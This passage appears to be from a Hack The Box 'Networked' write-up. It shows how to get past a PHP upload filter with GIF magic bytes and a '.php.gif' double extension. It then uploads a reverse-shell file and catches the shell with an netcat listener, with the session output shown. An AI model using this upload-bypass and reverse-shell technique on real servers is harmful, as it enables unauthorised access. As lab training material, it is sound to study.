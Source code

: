 ```php
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
.
.
.
```
The interesting part is `FILEINFO_MIME` if the `FILEINFO_MIME` return `image` then we can upload the file. I googled a bit about `FILEINFO_MIME` to confirm that my assumesion is correct, read [here](https://www.php.net/manual/en/function.finfo-file.php). 


The plan is try to fool the web app that we upload a image file by adding a magic byte to our payload. This will bypass the 1st check. Also our payload need to end with `'.jpg', '.png', '.gif', '.jpeg'` to bypass the 2nd check. Let's try it out.
```console
──(kali㉿kali)-[~/HTB/networked]
└─$ echo "GIF87a" > test.txt      
                                                                                    
┌──(kali㉿kali)-[~/HTB/networked]
└─$ file test.txt 
test.txt: GIF image data, version 87a,
```
okey looks good, now let craft some php code and try out
```console
                                                                                    
┌──(kali㉿kali)-[~/HTB/networked]
└─$ echo "GIF87a;<?php echo'kurohat was here' ?>" > kuro.php.gif
                                                                                    
┌──(kali㉿kali)-[~/HTB/networked]
└─$ file kuro.php.gif 
kuro.php.gif: GIF image data, version 87a, 15419 x 28735                                                                 
```
now visite `/photos.php` to get the file name and visite `/uploads/<filename>` to get the file, and it works!!! 


## foot hold
now let upload a reverse shell using the same method that we use before.
```console
┌──(kali㉿kali)-[~/HTB/networked]
└─$ file cutiecat.php   # payload with GIF87a; at the begining
cutiecat.php: GIF image data, version 87a, 15419 x 28735
                                                                                    
┌──(kali㉿kali)-[~/HTB/networked]
└─$ mv cutiecat.php cutiecat.php.gif   
```
now upload it and repeat the same process and before + open netcat listen to incoming reverse shell
```
$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.146] 40230
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 14:25:52 up  3:02,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```
let recon
```
```